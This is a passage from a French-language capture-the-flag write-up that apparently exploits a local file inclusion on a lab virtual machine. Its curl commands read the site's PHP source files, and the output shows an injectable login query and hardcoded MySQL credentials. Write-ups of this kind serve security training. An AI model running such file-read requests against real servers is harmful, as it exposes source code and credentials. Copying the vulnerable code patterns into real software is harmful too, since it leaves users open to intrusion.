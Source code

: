 Cette LFI nous donne l'occasion de consulter non seulement le code source de la page ```test.php``` elle-même...

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/test.php"
--snip--
		header("Content-Description: File Transfer"); 
			
		header('Content-Transfer-Encoding: binary');
		header('Expires: 0');
		header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
		header('Pragma: public');
		header('Accept-Ranges: bytes');
		header('Content-Disposition: attachment; filename="'.basename($download).'"'); 
		header('Content-Length: ' . filesize($download));
		header('Content-Type: application/octet-stream'); 
		ob_clean();
		flush();
		readfile ($download);
--snip--
```

... mais également le code source de la page d'accueil ```index.php```...

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/index.php"
--snip--
if(isset($_POST['login']))
{
	$uname=str_replace('\'','',urldecode($_POST['un']));
	$pass=str_replace('\'','',urldecode($_POST['ps']));
	$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
	$result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
	   echo "You are allowed<br>";
	   $_SESSION['logged']=true;
	   $_SESSION['admin']=$row['username'];
	   
	 header('Location: panel.php', true, 302);
--snip--
```

... ou encore le fichier ```c.php``` contenant les identifiants de connexion à la base de données MySQL.

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/c.php"
--snip--

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }
--snip--
```
